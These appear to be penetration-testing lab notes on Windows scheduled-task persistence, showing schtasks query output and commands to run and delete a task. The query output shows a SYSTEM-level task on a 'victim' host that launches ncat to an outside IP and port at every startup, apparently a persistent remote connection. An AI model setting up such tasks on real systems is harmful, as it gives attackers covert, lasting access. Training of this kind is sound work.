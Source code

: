 ```
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-victim\htb-admin
Task To Run:                          C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
```
In the output, verify that:
- The `Run As User` is set to `SYSTEM` or the desired user account.
- The `Task To Run` is correct.
- The task is scheduled correctly.


#### Running the Task Immediately
To test if the task runs as expected, use the `/run` parameter to execute it immediately.
**Example Command:**
```
schtasks /run /tn "My Secret Task"
```
**Explanation:**
- **`/run`**: Executes the specified task immediately.
- **`/tn "My Secret Task"`**: Specifies the name of the task to run.


#### Deleting a Scheduled Task
To delete a scheduled task, use the `/delete` parameter.
**Example Command:**
```
schtasks /delete /tn "My Secret Task"
```
**Explanation:**
- **`/delete`**: Indicates that you want to remove the task.
- **`/tn "My Secret Task"`**: Specifies the name of the task to delete

![[Screenshot_20240915_201948.png]]


**Command to Delete a Scheduled Task:**
```
schtasks /delete /tn "My Secret Task"
```
- **Without `/F` Option**: If you do not include the `/F` option, you will be prompted to confirm the deletion. This requires user input to proceed.
**Example Prompt:**
```
WARNING: Are you sure you want to delete this task (Yes/No)?
```
**With `/F` Option**: Adding the `/F` (Force) option will delete the task without prompting for confirmation.
**Example Command with `/F`:**
```
schtasks /delete /tn "My Secret Task" /F
```
**Outcome:**
```
SUCCESS: The scheduled task "My Secret Task" has been deleted.
```
